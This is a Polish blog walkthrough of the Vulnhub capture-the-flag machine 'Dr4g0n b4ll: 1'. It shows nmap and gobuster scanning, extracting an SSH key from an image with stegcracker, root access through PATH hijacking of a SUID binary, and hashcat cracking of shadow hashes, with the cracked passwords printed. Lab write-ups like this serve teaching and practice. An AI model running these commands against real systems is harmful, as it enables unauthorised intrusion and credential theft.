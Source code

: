 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
gallery6:
  - url: /assets/images/hacking/2021/07/06.png
    image_path: /assets/images/hacking/2021/07/06.png
---
```

# Wstęp
Wydany w połowie stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają, jest bardzo prostą maszyną. Jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [Grub-a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu obrazów, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była. Przypominała bardziej prawdziwą sytuację w jakiejś firmie, niż taką bajkową z zagadkami z filmów o hakerach. W trudniejszym dla mnie [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/) niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/), którą znalazłem na necie. Jest to inny typ zadania, Zagadki nie są rozmieszczone celowo, ale trzeba szukać ludzkich błędów i w programie. Bardziej to przypomina prawdziwe łamanie w świecie rzeczywistym.  Wracając do Dragon Ball-a, to jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. 😃
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty Nmap-em. Możemy też użyć Nmap-a w Metasploicie. Ja wolę używać Metasploita, bo potem mam wszystkie: ip, hasła, otwarte porty w jednym miejscu.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
Otwarte są tylko 2 porty: 22 i 80.
{: .text-justify}
## Analizujemy stronę
Na Stronie WWW mamy zdjęcia z anime Dragon Ball.
{: .text-justify}
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
```bash
echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Jednak do kodowania napisów w **BASE64** radzę pisać **echo -n**. Komenda **echo NAPIS | base64** zakoduje string i dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie Gobusterem:
```bash
gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy ciekawą rzecz w robots.txt:

http://172.16.1.124/robots.txt
{: .notice--info}
Ponownie rozkodowujemy:
```bash
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Dostajemy komunikat, żeby szukać ukryty katalog. Jest tutaj:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery4"  %}

Możemy wejść na stronę, ale nic na niej nie zdziałamy, taka podpucha:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .notice--info}
{% include gallery id="gallery6"  %}
Strona nie działa poprawnie, ale mamy login i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
## Czas się przyjrzeć obrazowi
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```console
root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
ssh -i id_rsa xmen@172.16.1.113
```
## Lądujemy w Shellu
Działa.Mamy katalog **script**, ale poszukajmy plików, które mają ustawiony bit **suid**. Może się znajdzie coś interesującego:
{: .text-justify}
```console
xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Godna uwagi jest zawartość w: **/home/xmen/script/shell**
```console
xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia root-a i uruchamia program **ps**:
{: .text-justify}
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
Czyli działa to tak:
{: .text-justify}
```console
xmen@debian:~/script$ ./shell
   PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
xmen@debian:~/script$
```
W kodzie programu nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program **ps** w katalogu domowym:
{: .text-justify}
```bash 
file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym:
{: .text-justify}
```bash
PATH="/home/xmen:$(echo $PATH)"
```
```console
xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
xmen@debian:~/script$ ./shell
root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:~/script#
```
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać dla nich uprawnienia **suid**. **Ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
## Na koniec deser
Skoro mamy root-a to możemy złamać hasła użytkowników. Zobaczmy czy nam się uda:
```cmd
c:\temp\hashcat611>hashcat.exe -O -a0 -m1800 dr4g0n_b4ll.hash rockyou.txt --show
$6$ryGtS7NFOo0fL3Bz$DgubBE9c3PT1jO/PwcZN6/L9ryVrSE5YrOFW.OAt61lTltdvpqXiUJAMowAteKrHr4Dzo9aC3mP2KTLvmgsBl1:ajs
$6$LE/lm1ySj7zuJI08$JgfeDLBfd.ANiXAsAnAterH5wvNXbSrexGNfD8hGbJJiObtkVcly.Y.iCjWAO.T7WnzvKeFjV09yL/KQ/6j.g/:mrxmen
$6$rGpU.19PmreHrE2a$RD.cGy7WmrdLMdQSDiclKK/iYz95W8OUhujLWtTHloFXS/sNLwrb12yGkDvpZ60u73pa2k8m5PxZhhEjGZa.x.:love
```
No i mamy 3 hasła, w tym Root-a. Co tu robi konsola windowsowa? Ano używam Hashcata na Windowsie, ze względu na kartę graficzną, która bardzo przyśpiesza rozkodowywanie **hashy**.
